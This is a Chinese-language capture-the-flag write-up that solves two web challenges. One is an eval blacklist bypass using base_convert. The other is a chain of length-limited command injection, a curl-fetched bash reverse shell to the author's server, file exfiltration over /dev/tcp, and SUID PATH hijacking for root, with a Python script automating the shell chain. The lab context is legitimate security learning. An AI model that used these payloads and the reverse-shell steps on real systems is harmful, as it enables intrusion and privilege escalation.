






## 2020BMZCTF Write-up

随缘做了两道web

昵称：Err0r

<!-- more -->

### WEB

#### WEB_ezeval

源码

```php
<?php

highlight_file(__FILE__);
$cmd=$_POST['cmd'];
$cmd=htmlspecialchars($cmd);
$black_list=array('php','echo','`','preg','server','chr','decode','html','md5','post','get','file','session','ascii','eval','replace','assert','exec','cookie','$','include','var','print','scan','decode','system','func','ini_','passthru','pcntl','open','link','log','current','local','source','require','contents');
$cmd = str_ireplace($black_list,"BMZCTF",$cmd);
eval($cmd);

?>
```

ban了一堆函数，但肯定还有能用的，`<、>、"`因为`htmlspecialchars`也是不能用的

往无参数RCE方向走发现不太可行，最后利用`base_convert`构造语句

把`system`由base36转为base10，利用`base_convert(2146934604002,10,36)`发现可以执行系统命令，于是想读取根目录flag发现`/`传不进去，于是继续`base_convert(16191,10,36)`，利用`chr`函数转换`/`，最终读取flag

payload：`cmd=base_convert(2146934604002,10,36)(base_convert(16191,10,36)(47).flag);`




---

#### WEB_penetration

主要考察反弹shell，提权

打开得源码

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['ip'])){
    $ip = $_GET['ip'];
    $_=array('b','d','e','-','q','f','g','i','p','j','+','k','m','n','\<','\>','o','w','x','\~','\:','\^','\@','\&','\'','\%','\"','\*','\(','\)','\!','\=','\.','\[','\]','\}','\{','\_');
    $blacklist = array_merge($_);
    foreach ($blacklist as $blacklisted) {
        if (strlen($ip) <= 18){
            if (preg_match ('/' . $blacklisted . '/im', $ip)) {
                die('nonono');
            }else{
            exec($ip);
            }
            
        }
        else{
        die("long");
        }
    }
    
}
?>
```

命令执行，`ip`经过blacklist过滤后exec执行，但是测着发现foreach会每次取一位然后来执行，执行多次，也就是说只要不含`b`就可以执行，这里可以直接执行，但限制了18个字符的长度限制发挥，尝试反弹shell，明显反弹shell第一个单词`bash`会被过滤，另寻方法。

首先就执行`find / -name fl*>1`，执行后输出结果到文件1，结果发现根本就没有flag！

测试echo可写，于是准备写个一句话木马，结果发现写的.php不执行，应该是写了规则。

于是准备写个`.htaccess`，结果一写直接500内部服务报错。

老实弹shell吧。

想直接写`bash -i >& /dev/tcp/[ip]/[port] 0>&1`，结果发现`&`写不进去，测试发现靶机可连外网，于是在自己服务器上写个名为1的文件，内容为`bash -i >& /dev/tcp/[ip]/[port] 0>&1`

再在靶机写个文件`1d`，内容为`curl ip/1>1`

运行`sh 1d`，发现不行，估计没有执行权限，赋予，`chmod 777 1d`，靶机运行了curl命令，访问我的服务器下载了文件1，这样就成功写了反弹shell的命令

在我的服务器监听端口，`nc -lvp [port]`

再给1赋予执行权限`chmod 777 1`，需要用bash执行，可是不可以含有`b`，于是利用`?`和`[a-c]`，即执行`/?in/[a-c]ash 1`

我的服务器成功getshell



根目录下没有发现flag，也没有readflag，找也找不到flag，有个`start.sh`，读取一下看看

```sh
www-data@2a4c1fe2f663:/var/www/html$ cat /start.sh
cat /start.sh
#!/bin/bash 

chmod 755 index.php
gcc /root/demo.c -o love
mv love /usr/bin/love
chmod u+s /usr/bin/love

rm /var/log/apache2/access.log
rm /var/log/apache2/error.log
```

关键在这个`/user/bin/love`

读出来看看，服务器开监听端口，靶机shell执行`cat /usr/bin/love > /dev/tcp/[ip]/[port]`



成功拿到文件，拷下来反编译一下(web狗汗颜)



结果就是系统执行个ps命令

结合find发现了的一点东西



`/root`目录没有权限，也许可能考点就是提权了

这是一个具有SUID权限的程序，在tmp目录写个内容为`/bin/bash`的ps文件，添加进环境变量，这样执行程序调用ps命令会优先从这里执行，而这里是我们伪造的ps命令，然后相当于以高级权限执行了`/bin/bash`。

```bash
echo "/bin/bash" > /tmp/ps
chmod 777 ps
echo $PATH
export PATH=.:$PATH
/usr/bin/love
```

成功提权，直接`cat /root/flag`




理解了师傅之前说的，提权，才是开始。

是的，权限真香，这才刚刚开始

后面再研究吧

附上一键弹shell脚本：

```python
# -*- coding: utf-8 -*-
"""
@Time ： 2020/12/26 20:36
@Auth ： gyy
@Blog：http://err0r.top

"""
import requests
baseurl = "http://www.bmzclub.cn:21257/"

def req(url):
    res = requests.get(url).content.decode('utf8')
    return res

def execit(payload):
    url = baseurl+"?ip="+payload
    res = req(url)
    if "long" not in res:
        return 1
    else:
        return 0

def check(url):
    res = req(url)
    print(res)

if __name__ == "__main__":
    payload1 = "curl [ip]/[filename]>1"
    i = 0
    flag = 1
    while i < len(payload1):
        if flag:
            payload = "echo '" + payload1[i:i + 5] + "\c'>1d"
            execit(payload)
            i += 5
            flag -=1
        payload = "echo '"+payload1[i:i+5]+"\c'>>1d"
        execit(payload)
        i +=5
    check(baseurl+"1d")
    # bash -i >& /dev/tcp/[ip]/[port] 0>&1
    execit("chmod 777 1d")
    execit("sh 1d")
    execit("chmod 777 1")
    execit("/?in/[a-c]ash 1")
```


---

### 总结

很有收获，不枉这两题，尤其的第二题，非常有价值。

当然不能小看第一题，别看WP短短几行，背后是无数次的尝试与探索，第二题更是如此。

2020年最后一份WP，还有很长路要走，加油吧。